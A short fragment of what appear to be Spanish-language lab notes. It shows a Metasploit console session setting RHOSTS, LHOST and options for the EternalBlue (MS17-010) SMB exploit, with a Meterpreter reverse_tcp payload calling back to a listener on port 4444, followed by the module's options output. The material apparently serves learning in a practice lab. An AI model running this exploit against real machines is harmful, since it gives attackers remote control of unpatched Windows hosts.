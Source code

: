 ### Establecer opciones
```
>> Establecer opciones
RHOST
LHOST
LPORT


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.228.121
rhosts => 10.10.228.121
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.2.4.107
msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.228.121    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                             cs/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2
                                             , Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.2.4.107       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.


>>> mencionar unser

unset RHOSTS
unset all

```